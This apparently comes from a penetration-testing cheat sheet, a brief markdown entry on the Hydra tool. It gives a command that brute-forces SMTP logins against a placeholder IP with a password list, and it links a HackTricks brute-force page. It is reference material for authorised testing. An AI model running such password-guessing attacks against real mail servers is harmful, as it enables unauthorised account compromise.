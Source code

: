 # Hydra

`$ hydra -U smtp`

`$ hydra -V -l <username> -P passwords.lst [-s <PORT>] <IP> smtp`

---
## References

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)